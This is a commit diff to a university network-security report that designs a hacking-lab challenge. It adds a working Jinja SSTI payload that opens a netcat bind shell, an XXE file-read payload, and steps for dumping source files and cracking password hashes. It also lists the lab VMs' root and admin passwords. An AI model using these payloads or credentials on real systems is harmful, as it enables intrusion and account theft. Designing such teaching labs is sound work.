

Before and after one commit to oskopek/netsec-report, a LaTeX paper (proposal.tex, which reads exploits/flask_exploit.txt, exploits/xxe_exploit.txt): two parts of pages 3 and 4 of 5 before the commit and two parts of pages 4 and 6 of 6 after it, joined at a grey line, cut at the place of the change, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Finish first draft

```diff
--- /dev/null
+++ b/exploits/flask_exploit.txt
@@ -0,0 +1,3 @@
+{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}
+{{ config.from_pyfile('/tmp/evilconfig.cfg') }}
+{{ config['RUNCMD']('nc -lnvp 8000 -e /bin/sh',shell=True) }}
--- /dev/null
+++ b/exploits/xxe_exploit.txt
@@ -0,0 +1,5 @@
+<?xml version="1.0"?>
+ <!DOCTYPE foo [
+   <!ELEMENT foo ANY >
+   <!ENTITY xxe SYSTEM "file:///path_to_file" >]>
+   <foo>&xxe;</foo>
--- a/proposal.tex
+++ b/proposal.tex
@@ -197,5 +219,0 @@ For an overview, see Figure \ref{fig:diag}.
-                from the server.
-          \item Using the XXE exploit you can dump a list of
-                forum users and their password hashes, forgotten in a comment
-                in the actual web app source files.
-          \item Recover the passwords using a rainbow table.
@@ -202,18 +229,36 @@ For an overview, see Figure \ref{fig:diag}.
+            \lstinputlisting[language=XML]{exploits/xxe_exploit.txt}
+          \item Use the exploit to dump the \texttt{\_\_init.py\_\_}
+            (the path to it is provided as "debug info" in the web page).
+          \item Read the dumped file and notice that it imports another
+            python module called "models.py".
+          \item Using the same exploit dump the \texttt{models.py} file.
+          \item Read the file and notice ``accidentally'' forgotten usernames
+            and password hashes.
+          \item Recover the passwords using e.g. John the Ripper or
+            a website such as \url{"https://crackstation.net"}.
         \end{enumerate}
 
-  \item Steal the admin's password.
+      \item Steal the first half of admin's SSH password.
         \begin{enumerate}
-          \item The company's admin contact form is vulnerable to reflected XSS. The attacker is
-              hence able to post an XSS message to the Q\&A system. Then the admin, who
-                checks it periodically, will run into this code and his browser
-                will execute it. However, the admin is not accesing the system using a browser!
-          \item The webapp uses the jinja templating engine. Run a server-side template
-              injection attack and extract the previously unobtainable \texttt{view.py} file.
-              Find the admin's SSH password.
+          \item The company's admin contact form is vulnerable to multiple
+            injection attacks (including reflected XSS and SSTI). Our intention
+            is to make students first try the obvious XSS vectors and realize
+            that they are not working because the admin wrote a script, which
+            generetes automatic replies to users' queries and is non aware of
+            JavaScript.
+          \item The second attack vector would be one against the template
+            rendering engine. Here's a possible exploit for it:
+            \lstinputlisting[language=Python]{exploits/flask_exploit.txt}.
+            This exploit starts a remote shell accessible at port 8000.
+          \item Using nc connect to the shell and explore the web application
+            source files.
+          \item Find the previously unobtainable \texttt{view.py} file (we made
+            sure that the file is unreadable with the previous XXE exploit).
+          \item Find the first half of admin's SSH password in the file.
         \end{enumerate}
 
-  \item Reverse engineer the APK downloaded from the web app.
+      \item Steal the second half of admin's SSH password.
         \begin{enumerate}
           \item Find the 2FA app in the menu and download it.
           \item Use a java decompiler and check out the algorithm.
-              Notice that it returns only the last three decimal digits!
+            Understand that there's no way to recover the needed secret, but
@@ -248,3 +300,47 @@ For an overview, see Figure \ref{fig:diag}.
 \TODO{Add implementation details --- describe the system implementation, what challenges there were, \ldots}
 \TODO{Add references for attacks!}
 
+\subsection{Network}
+  The network consists of two VMs with statically allocated ip addresses:
+  \begin{itemize}
+    \item Server - 192.168.0.1
+    \item Client - 192.168.0.2
+  \end{itemize}
+  Both of the VMs have "internal network" VirtualBox network adapters. No other
+  special network setup is required, so deploying the challenge in some other
+  environment should be straightforward. Just make sure to statically set the
+  server's ip address and provide it to the client. \\
+
+
+  The client VM  has an additional "NAT" adapter for internet access.
+\subsection{Server}
+  The server is a Debian 9 VM. It runs an Nginx + uwsgi + Flask web server.
+  There's two user accounts available for interactive login (via SSH too):
+  \begin{itemize}
+    \item root:gtavibkznsseauu
+    \item bestadminever:ilovekittens988
+  \end{itemize}
+
+  We took care to protect the server against DOS attacks from evil students (in
+  case the challenge gets deployed to a platform like Hacking Lab):
+  \begin{itemize}
+    \item None of the accounts on the server has sudo privileges (except root).
+    \item All the important for the challenges files are owned by root and only
+      readable by corresponding users. The only exception are the files contained
+      in the \texttt{/home/www-data/webapp\_writable} folder. Those are the
+      Linux fifo between Nginx and uwsgi and the logs of flask server. We could
+      not come up with a solution for those files. In case they get deleted
+      all that needs to be done to restore the server's work is:
+      \texttt{systemctl restart webapp.service} invoked by root.
+  \end{itemize}
+
+  Another risk is students getting root access by exploiting some fresh Linux
+  vulnerabilities, but we see no way of defending against it in advance.
+
+\subsection{Client}
+  The client is a Ubuntu 16.04 VM. It has all the necessary tools installed in
+  \texttt{/home/hacker/tools} folder. \\
+
+  It also has the "gugli" hostname and corresponding ip address added. Other than
+  that it is a typical out-of-box Ubuntu distribution and can easily be replaced
+  by any other distro.
```
Also changed, not shown: images/diagram.jpg (deleted), images/diagram.png (added), proposal.tex (113 more changed lines), 1 other file.
